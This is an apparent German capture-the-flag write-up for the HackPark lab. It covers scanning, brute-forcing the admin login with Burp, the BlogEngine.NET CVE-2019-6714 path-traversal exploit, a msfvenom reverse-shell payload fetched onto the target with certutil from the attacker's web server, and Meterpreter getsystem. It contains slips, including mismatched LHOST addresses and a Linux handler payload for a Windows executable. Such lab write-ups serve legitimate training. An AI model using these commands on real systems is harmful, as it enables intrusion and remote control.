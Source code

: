 # Ziel: 10.10.207.184

# Scanning 

## Nmap 

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements

3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2025-10-07T12:28:48+00:00; -1s from scanner time.


MAC Address: 02:C8:10:B2:62:29 (Unknown)

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
## Nikto 

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.207.184
+ Target Hostname:    10.10.207.184
+ Target Port:        80
+ Start Time:         2025-10-07 13:29:17 (GMT1)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/8.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'content-style-type' found, with contents: text/css
+ Uncommon header 'content-script-type' found, with contents: text/javascript
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x3d1dc2fc254ad51:0 
+ File/dir '/search/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/search.aspx' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/archive/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/archive.aspx' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 6 entries which should be manually viewed.
+ Server banner has changed from 'Microsoft-IIS/8.5' to 'Microsoft-HTTPAPI/2.0' which may suggest a WAF, load balancer or proxy is in place
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ Uncommon header 'x-aspnetwebpages-version' found, with contents: 3.0
+ OSVDB-3092: /archive/: This might be interesting...
+ OSVDB-3092: /archives/: This might be interesting...
+ 6544 items checked: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2025-10-07 13:29:40 (GMT1) (23 seconds)
---------------------------------------------------------------------------

```

## Walking the site: 
Login Page 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

-> Vermutlich login name Admin

Brute forcing via Burp Intruder und Sniper attack mode

->  Passwort found 
1qaz2wsx


### FINDINGS
Admin Portal unter 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

Username: admin
Passwort: 1qaz2wsx

# Initial Access 

Gegeben von zuvor 

Admin Portal unter 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

Username: admin
Passwort: 1qaz2wsx

Feststellung BlogEngine.NET Version: 3.3.6.0 

## Kontrolle auf Exploits mit searchsploit

root@ip-10-10-226-42:~# searchsploit BlogEngine.NET 3.3.6
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                   | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                   | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                              | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                              | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                           | aspx/webapps/47014.py


## Low Hanging Fruit -> Exploiting w Metasploit

-> Keine Resultate 


## Umschauen im Netz um mehr Infos zu den Exploits zu bekommen 

https://www.exploit-db.com/exploits/46353

CVE-2019-6714

Zuerst laden wir uns den Code runter und lesen die Kommentare hier wird die Funktionalität auch schon erklärt
```
```cs
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */
```

Da die NetCat shell aber super instabil ist Upgraden wir auf eine Revshell von msfvenom bzw eine Meterpreter shell

Hierzu erstellen wir die Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.88.32 LPORT=3333 -f exe > rev.exe
```

Starten den Rev shell handler
```
mfsconsole
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.88.23
set LPORT 3333

exploit
```

Jetzt müssen wir nurnoch die shell auf das ziel bekommen und ausführen 

Hierfür starten wir einen basic web server auf dem angreifer system via 

```
python3 -m http.server
```

Jetzt steht die datei unter 

http://10.10.88.23:8000/rev.exe
zur verfügung und wir laden sie auf dem ziel runter. Ich habe hierführ den Temp Ordner genutzt da der meistens ohne Probleme funktioniert

```
cd c:\Windows\Temp

certutil -urlcache -split -f http://10.10.88.23:8000/rev.exe rev.exe

rev.exe
```

Schon haben wir die Rev shell mit dem Handler gefangen

# Privilegien Eskalieren 

## Low hanging Fruit 

Was man immer mal probieren kann ist 

```
getsystem
```

das ist das Meterpreter Modul für die Automatische Privilegien eskalation. Und taddaaa das funktioniert 


Jetzt gilt es noch die Flags zu finden aber das ist blödsinn zu Dokumentieren
     